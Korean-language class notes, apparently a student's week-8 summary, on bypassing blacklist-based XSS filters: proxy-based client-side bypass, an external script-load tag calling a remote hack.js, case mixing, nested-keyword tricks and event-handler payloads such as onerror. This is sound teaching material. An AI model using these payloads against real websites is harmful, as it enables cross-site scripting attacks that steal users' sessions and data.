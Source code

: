 # 8주차 수업정리

Anti XSS Bypass   
-> Black List 필터링   
--> WAF(Web Application Firewall) : 웹 어플리케이션 요청을 할 때 그 요청한 값을 봐서 차단하는 방화벽   
--> Firewall : IP를 이용해 막음

## Black List 필터링 우회 방법.

1.Client Side 검증 우회   
-> Burp Suite (프록시 툴) 이용.
그러면 client 에서 < > %ltm %rt 이런 식으로 바꿔도 프록시 툴로 우회 가능
</br>
</br>

2.Script Load   
", ', alert function
```
<script scr=http://yws.com/hack.js></script>
```
alert 1은 띄울 수 있는데, 길이 제한이 걸렸을 떄 사용함.
</br>
</br>

3.대소문자 혼용   
```
<script> -> <ScRiPt>
```
</br>
</br>

4.필터링 되는 문자   
```
<script> -> <scrscriptipt>
```
</br>
</br>

5.EventHandler   
javascript 넣을 수 있음.   
```
1. onerror   
   ex) <img src=x onerror="alert(1)">
2. onactivate
3. onload  
4. svg    
5. onmouseover   
등등등   
```
근데 아는 게 다 필터링 되어있다면?   
[XSS CheatSheet]    
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

